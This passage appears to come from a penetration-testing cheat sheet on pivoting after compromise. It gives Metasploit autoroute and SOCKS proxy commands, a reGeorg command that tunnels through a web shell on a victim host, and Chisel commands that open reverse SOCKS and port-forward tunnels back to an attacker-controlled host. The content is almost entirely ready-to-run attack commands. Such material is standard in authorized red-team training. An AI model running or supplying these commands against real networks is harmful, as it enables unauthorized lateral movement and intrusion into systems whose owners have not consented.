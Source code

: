Alternatively, with `autoroute`:

```bash
bash
CopyEdit
background
use post/multi/manage/autoroute
set SESSION <session_id>
set SUBNET <victim_subnet>
set NETMASK <netmask>
run

use auxiliary/server/socks_proxy
set VERSION 4a
run

```

---

## **Other Tunneling Tools**

### reGeorg

Pivot through a web shell tunnel (PHP/JSP/ASPX).

```bash
bash
CopyEdit
python reGeorgSocksProxy.py -p 8080 -u http://<victim_ip>/path/to/tunnel.jsp

```

> reGeorg GitHub
> 

---

### Chisel

Fast TCP tunneling over HTTP using client-server setup.

- **SOCKS Proxy:**

```bash
bash
CopyEdit
./chisel server -p 8080 --reverse
./chisel client <attacker_ip>:8080 R:socks

```

- **Port Forwarding:**

```bash
bash
CopyEdit
./chisel server -p 12312 --reverse
./chisel client <attacker_ip>:12312 R:<local_port>:<target_ip>:<target_port>

```
